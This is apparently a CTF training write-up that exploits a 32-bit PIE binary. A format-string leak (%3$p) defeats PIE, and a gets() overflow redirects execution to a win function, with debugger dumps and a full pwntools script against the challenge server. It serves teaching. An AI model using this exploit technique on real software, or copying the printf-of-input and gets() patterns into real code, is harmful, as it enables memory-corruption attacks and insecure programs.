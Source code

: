 ```yaml
---
description: Using a format string to leak an address.
---
```


# leak32

{% file src="../../.gitbook/assets/leak32.zip" %}

In this case, we won't be provided a leak. Instead, we must combine how we used format strings and find our own leak. Solving this challenge will be remarkably similar to how we solve canary challenges, so be sure you're confident in Sections 0x3 and 0x4 before moving on.

### Static Analysis

PIE is indeed enabled, and there is no canary:

```nasm
$ checksec ./leak32
[*] '/home/joybuzzer/Documents/vunrotc/public/binex/06-pie/leak32/src/leak32'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

We'll move straight to the `read_in` function. You can verify that `main` and `win` haven't changed. This code is actually the same as one of the canary challenges, replacing the canary with PIE. We'll see that it doesn't change our exploit that much.

Here is the source code for `read_in`. This was collected straight from `gdb`, so please ensure you're confident doing this.

```c
void read_in()
{
    puts("What's your name?");
    gets(ebp-0x30);
    
    printf("Nice to meet you ");
    printf(ebp-0x30);
    putchar(0xa);   // newline
    
    printf("What's your message?");
    gets(ebp-0x30);
    
    return;
}
```

We'll use a format string against the first input. Let's test what happens when we do that to see what addresses get printed. In this case, because we are looking for addresses, we use `%p` instead of `%x`:

```nasm
$ ./leak32
What's your name?
%p %p %p %p %p %p %p %p
Nice to meet you (nil) 0x1000000 0x566301f9 0xf7ee2540 (nil) 0x25207025 0x70252070 0x20702520
What's your message?
```

The only item here that looks like an address is `0x566301f9`. `0xf7ee2540` a far away instruction or a stack address, so it's not as helpful. We'll check both just to be sure our intuition is correct.

{% hint style="warning" %}
When using breakpoints on a binary with PIE enabled, they **must** be an offset from a known function. Addressing based on what you see in `disas read_in` won't work. Use something like `disas *(read_in+8)`.
{% endhint %}

Also, we can't check _those_ specific addresses because PIE is enabled. We need to check the addresses shown on each specific run. To do this, put a breakpoint at the vulnerable `printf` call and check the stack.

{% tabs %}
{% tab title="GDB" %}
```nasm
gef➤  x/10wx $esp
0xffffd580:	0xffffd598	0x00000000	0x01000000	0x565561f9
0xffffd590:	0xf7fc4540	0x00000000	0x25207025	0x70252070
0xffffd5a0:	0x20702520	0x25207025
```
{% endtab %}

{% tab title="Radare2" %}
```nasm
[0x565a823e]> pxw 40 @ esp
0xffd21c40  0x565a901a 0x00000000 0x01000000 0x565a81f9  ..ZV..........ZV
0xffd21c50  0xf7f6e540 0x00000000 0x25207025 0x70252070  @.......%p %p %p
0xffd21c60  0x20702520 0x25207025                         %p %p %
```
{% endtab %}
{% endtabs %}

The first address is the address of the format string. We start counting from the second item (which reads `(nil)` in the standard output). We want the third and fourth options, which also have the same high bytes.

{% tabs %}
{% tab title="GDB" %}
```nasm
gef➤  x/wx 0x565561f9
0x565561f9 <read_in+12>:	0x2dc7c381
gef➤  x/wx 0xf7fc4540
0xf7fc4540 <__kernel_vsyscall>:	0x89555251
```
{% endtab %}

{% tab title="Radare2" %}
```nasm
[0x565a823e]> pxw 4 @ 0x565a81f9
0x565a81f9  0x2dc7c381                                   ...-
[0x565a823e]> pxw 4 @ 0xf7f6e540
0xf7f6e540  0x89555251                                   QRU.
```
{% endtab %}
{% endtabs %}

Aha! The third value resolves to `read_in + 12`, which happens to be the base pointer for `read_in`. The fourth value resolves to `__kernel_vsyscall`, which is a function in the kernel. The first one is more useful, so we use that.

### Exploitation

We'll use a very similar exploit to the previous binary, just accounting for how we will receive the leak.

We'll start by establishing the binary and process:

```python
elf = context.binary = ELF('./leak32')
p = remote('vunrotc.cole-ellis.com', 7200)
```

Then, we need to receive the leak. We'll receive the third format string parameter, which we know is at `read_in + 12`. From there, we'll compute `elf.address`:

```python
p.sendline(b'%3$p')
p.recvuntil(b'Nice to meet you ')
leak = int(p.recvline().strip(), 16)
elf.address = leak - (elf.sym.read_in + 12)
```

Now, we can build the payload. It's a simple ret2win from here!

```python
payload = b'A' * 0x34
payload += p32(elf.sym.win)
```

Finally, we send the payload.

```python
p.recvuntil(b'message?')
p.sendline(payload)
p.interactive()
```

This gets us the flag! Here is the full exploit:

{% code title="exploit.py" lineNumbers="true" %}
```python
from pwn import *

elf = context.binary = ELF('./leak32')
p = remote('vunrotc.cole-ellis.com', 7200)

p.recvline()

p.sendline(b'%3$p')
p.recvuntil(b'Nice to meet you ')
leak = int(p.recvline().strip(), 16)
elf.address = leak - (elf.sym.read_in + 12)

payload = b'A' * 0x34
payload += p32(elf.sym.win)

p.recvuntil(b'message?')
p.sendline(payload)
p.interactive()
```
{% endcode %}